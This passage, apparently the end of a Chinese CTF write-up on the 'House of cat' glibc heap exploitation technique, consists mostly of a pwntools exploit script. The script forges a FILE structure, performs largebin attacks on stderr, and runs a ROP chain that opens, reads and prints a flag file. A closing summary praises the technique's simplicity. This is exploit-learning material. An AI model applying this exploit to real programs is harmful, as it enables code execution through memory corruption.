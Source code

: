 ```plain
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
print(hex(len(fake_struct)))
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))

add(5,0x440,"55555")
dbg()
add(6,0x430,"./flag")
add(7,0x430,"77777")

rop = p64(pop_rdi) + p64(0) + p64(close) #close(0)
rop += p64(pop_rdi) + p64(flag_addr) + p64(pop_rax) + p64(2) + p64(syscall_ret) #open(flag)
rop += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(flag_addr+0x10) + p64(pop_rdx_r12) + p64(0x100) + p64(0) + p64(read) #read(0,flag_addr+0x10,0x100)
rop += p64(pop_rdi) + p64(flag_addr+0x10) + p64(puts) #puts(flag_addr+0x10)

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))

cat(1)
dbg()
p.sendlineafter(":",str(10))
gdb.attach(p,'b* (_IO_wfile_seekoff)')
p.sendlineafter(":",str(0x450))

p.interactive()
```

# 总结

跟着 House of cat 学习下来，能明显感觉到比 House of emma 的复杂程度低了不少，原理也简单好懂，调用链明白清晰，是一个不可多得的优秀 IO 攻击方式。
